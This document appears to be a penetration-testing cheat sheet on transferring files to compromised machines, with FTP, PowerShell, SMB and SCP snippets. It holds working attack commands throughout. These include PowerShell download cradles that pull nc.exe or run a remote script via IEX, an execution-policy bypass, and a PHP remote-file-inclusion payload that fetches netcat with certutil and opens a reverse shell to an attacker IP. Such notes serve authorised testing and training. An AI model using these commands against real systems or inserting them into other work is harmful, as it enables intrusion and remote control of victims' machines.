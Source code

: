 # File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
FTP reverse shell
echo "open <IP>" > ftp.txt  
echo "offsec" >> ftp.txt  
echo "offsec" >> ftp.txt  
echo "bin" >> ftp.txt  
echo "get file.exe" >> ftp.txt  
echo "bye" >> ftp.txt   

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### Powershell
In Kali
python -m SimpleHTTPServer 80

  Stop services   
  List PID of servies   
    ps -l   
    kill -9 PID   

#### In reverse shell - Windows
```shell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe -command "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.51/nc.exe', 'nc.exe')" 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe
```
#### Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

#### Obtaining Shell on a Remote Windows Server RFI 
1. Create and host your file (in this case, we call our file evil.txt) on your attacking machine-192.168.105.130
The evilfile.txt contains the php file with windows command for the reverse shell as shown below:
```shell
<?php echo shell_exec('certutil.exe -urlcache -split -f "http://192.168.105.130/nc.exe" nc.exe && nc.exe -nv 192.168.105.130 91 -e cmd.exe');?>
```
note that our command uses certutil to download netcat (nc.exe). Certutil is not installed by default on XP/Win2003 but is avaialble on the newer windows versions.For XP/2003 you'll need the Admin Tool Pack for windows server 2003
### SCP
After login through ssh
scp <fileToUpload> user@remote:/path
